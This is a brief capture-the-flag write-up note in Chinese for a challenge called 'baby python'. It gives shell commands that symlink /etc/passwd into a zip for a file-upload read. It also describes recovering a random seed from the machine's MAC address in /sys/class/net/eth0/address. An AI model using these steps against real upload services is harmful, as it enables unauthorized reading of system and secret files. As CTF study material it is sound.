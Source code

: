 ### baby python
上传压缩包,存在软连接读取文件

```bash
ln -s /etc/passwd passwd
zip --symlinks passwd.zip passwd
```

random.seed(uuid.getnode())
种子的生成
读取 /sys/class/net/eth0/address

